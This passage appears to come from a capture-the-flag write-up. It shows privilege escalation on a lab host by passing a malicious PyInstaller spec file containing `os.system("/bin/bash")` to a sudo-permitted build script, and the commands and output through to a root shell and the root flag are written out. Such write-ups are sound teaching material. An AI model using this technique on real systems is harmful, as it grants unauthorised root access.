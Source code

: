 ```bash title="/usr/local/sbin/build-installer.sh"
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

Reading through the script, the `build` action combined with a `spec` file gives me most control over the arguments passed to pyinstaller. From the [PyInstaller docs](https://pyinstaller.org/en/stable/spec-files.html) I learn that spec files are little Python scripts that can be passed to the program, which get executed during the build process. The docs show an example spec file:

```python
block_cipher = None
a = Analysis(['minimal.py'],
         pathex=['/Developer/PItests/minimal'],
         binaries=None,
         datas=None,
         hiddenimports=[],
         hookspath=None,
         runtime_hooks=None,
         excludes=None,
         cipher=block_cipher)
pyz = PYZ(a.pure, a.zipped_data,
         cipher=block_cipher)
exe = EXE(pyz,... )
coll = COLLECT(...)
```

Given this is all plain Python code. I wonder if I can create a minimal spec file that executes `/bin/bash`:

```ansi
tkeller@socket:~$ cd /tmp
tkeller@socket:/tmp$ echo 'import os;os.system("/bin/bash")'  > my.spec
tkeller@socket:/tmp$ sudo /usr/local/sbin/build-installer.sh build my.spec
423 INFO: PyInstaller: 5.6.2
424 INFO: Python: 3.10.6
425 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
429 INFO: UPX is not available.
root@socket:/tmp# whoami
root
root@socket:/tmp#
```

And it worked. When PyInstaller executed the spec, my malicious spec file spawned bash via the `os` module.

Now I can read `root.txt`:

```ansi
root@socket:/tmp# cd /root

root@socket:~# cat root.txt
c0ac7b2aed1a8fb8cdc4be85b0036c75
```
